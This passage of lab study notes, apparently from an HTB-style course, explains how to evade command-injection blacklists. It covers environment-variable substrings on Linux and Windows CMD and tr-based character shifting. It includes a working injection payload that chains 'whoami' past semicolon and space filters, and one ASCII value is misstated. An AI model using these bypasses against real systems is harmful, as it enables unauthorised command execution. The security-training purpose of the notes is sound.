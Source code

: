 ✅ Use `${LS_COLORS:10:1}` instead of `;`

>  Tip: Use `printenv` to dump all environment variables and locate strings that include your desired character.

#### Combined Payload Example

```
127.0.0.1${LS_COLORS:10:1}${IFS}whoami
```

- `${LS_COLORS:10:1}` → `;`
- `${IFS}` → space

✅ Successfully bypasses both semicolon and space blacklist.
### 2. Character Shifting Using `tr`

You can generate characters based on ASCII offset logic:

- `/` has ASCII code `92`    
- `[` is `91` (right before `/`)

```bash
echo $(tr '!-}' '"-~' <<< [)
# Output: \
```

✅ This technique allows indirect character printing without literal input.

> You can look up ASCII values using:

```bash
man ascii
```
## Windows Techniques

### CMD (Command Prompt)

Use substring notation to extract characters from environment variables:
#### Example: Extract `\` from `%HOMEPATH%`

```cmd
echo %HOMEPATH%
# Output: \Users\htb-student

echo %HOMEPATH:~6,-11%
# Output: \
```

- `~6` → skip to start of username    
- `-11` → cut from end, just extract `\`

✅ Use `%HOMEPATH:~6,-11%` instead of backslash.
### PowerShell

PowerShell treats strings as arrays. Extract a single character using index access:
